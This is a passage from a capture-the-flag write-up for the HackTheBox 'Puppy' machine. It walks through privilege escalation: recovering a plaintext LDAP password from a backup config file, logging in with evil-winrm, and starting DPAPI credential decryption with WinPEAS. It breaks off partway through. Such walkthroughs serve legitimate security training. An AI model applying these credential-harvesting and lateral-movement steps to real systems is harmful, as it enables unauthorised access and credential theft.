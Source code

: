 ```powershell
more C:\Users\adam.silver\Desktop\user.txt
```



## Privilege Escalation for Root

We can find a juicy directory on `C:\Backups` disk with inside this:

```powershell
cd C:\Backups
dir

# output
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip
```

Download this file with Download function in evil-winrm and analyze it.

Extract zip content:

```bash
unzip site-backup-2024-12-30.zip
```

We have a configuration file with `steph.cooper`'s credentials.

```bash
nano nms-auth-config.xml.bak

# output 
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
 ...
```

We can access as a `steph.cooper` to the DC.

```bash
evil-winrm -i 10.10.11.70 -u 'steph.cooper' -p 'ChefSteph2025!'
```



### DPAPI decrypt creds

Running `WinPEASx64.exe` we can notice that this user has a DPAPI masterkey to decrypt some files.

<pre data-title="winPEAS output" data-overflow="wrap"><code><strong>...
</strong><strong>C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9
</strong>
Description: Enterprise Credential Data
